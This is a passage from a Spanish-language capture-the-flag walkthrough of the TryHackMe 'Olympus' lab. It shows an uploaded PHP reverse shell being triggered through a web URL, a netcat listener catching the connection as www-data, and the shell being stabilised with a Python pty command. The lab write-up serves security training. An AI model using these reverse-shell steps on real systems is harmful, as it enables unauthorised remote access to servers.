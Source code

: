 ```
| 2022-08-04 | prueba                                                                                                                                                          | <blank>                              | prometheus |
| 2022-08-04 | Attached : a.txt                                                                                                                                                | 012a4f36f3ba4e3c90e2606db849bfef.txt | prometheus |
| 2022-08-04 | shell                                                                                                                                                           | <blank>                              | prometheus |
| 2022-08-04 | Attached : php-reverse-shell.php                                                                                                                                | 99e7c69732975b95791508afdabc5057.php | prometheus |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+

```

Abrimos una pestaña nueva en nuestro terminal e iniciamos **netcat**

```console
nc -lvnp 4321
```

Significado de las flags:

* `-l`&nbsp;: listen mode.
* `-v`&nbsp;: verbose.
* `-n`&nbsp;: solo IP numéricas, no DNS.
* `-p`&nbsp;: nro de puerto local.

Cargamos la shell desde el navegador con

```
http://chat.olympus.thm/uploads/99e7c69732975b95791508afdabc5057.php
```

Confirmamos conexion

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ nc -lvnp 4321
listening on [any] 4321 ...
connect to [10.18.xx.xx] from (UNKNOWN) [10.10.129.191] 46000
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 16:49:33 up  1:49,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Bien, estamos dentro. Vamos a estabilizar la shell lo primero

```console
[...]
$ which python2 python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@olympus:/$ 
```

